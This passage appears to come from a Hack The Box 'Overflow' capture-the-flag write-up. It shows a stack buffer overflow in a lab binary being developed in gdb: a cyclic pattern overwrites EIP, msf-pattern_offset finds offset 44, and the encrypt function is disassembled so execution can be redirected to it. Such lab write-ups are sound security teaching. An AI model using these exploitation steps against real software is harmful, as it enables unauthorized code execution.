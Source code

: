 Using pattern_create, we generated a string of 300 characters. We’ll input it using gdb and then extract the EIP value.
```bash
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/caue/htb/overflow/reverse/file_encrypt 
This is the code 1804289383. Enter the Pin: -202976456
name: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb

Program received signal SIGSEGV, Segmentation fault.
0x35624134 in ?? ()
```

EIP was overwritten with `0x35624134`. 
Using `msf_pattern_offset` we can identify the overflow offset at 44.
```bash
$ /usr/bin/msf-pattern_offset -l 300 -q 0x35624134
[*] Exact match at offset 44
```

Now that we know the offset, we’re going to attempt to route the program execution to the encrypt function. To get the address of the function, we run the program in gdb, issue a ctrl-c and dissassemble the function.
```
(gdb) r                                                                                                                                                
The program being debugged has been started already.                                                                                                   
Start it from the beginning? (y or n) y                                                                                                                
Starting program: /home/caue/htb/overflow/reverse/file_encrypt                                                                                         
This is the code 1804289383. Enter the Pin: -202976456                                                                                                 
name: ^C                                                                                                                                               
Program received signal SIGINT, Interrupt.                                                                                                             
0xf7fc9559 in __kernel_vsyscall ()                                                                                                                     
(gdb) disas encrypt                                                                                                                                    
Dump of assembler code for function encrypt:                                                                                                           
   0x5655585b <+0>:     push   %ebp                                                                                                                    
   0x5655585c <+1>:     mov    %esp,%ebp                                                                                                               
   0x5655585e <+3>:     push   %ebx                                                                                                                    
   0x5655585f <+4>:     sub    $0x94,%esp                                                                                                              
   0x56555865 <+10>:    call   0x56555720 <__x86.get_pc_thunk.bx>                                                                                      
   0x5655586a <+15>:    add    $0x2736,%ebx                                                                                                            
   0x56555870 <+21>:    movl   $0x0,-0x80(%ebp)                                                                                                        
   0x56555877 <+28>:    movl   $0x0,-0x7c(%ebp)                                                                                                        
```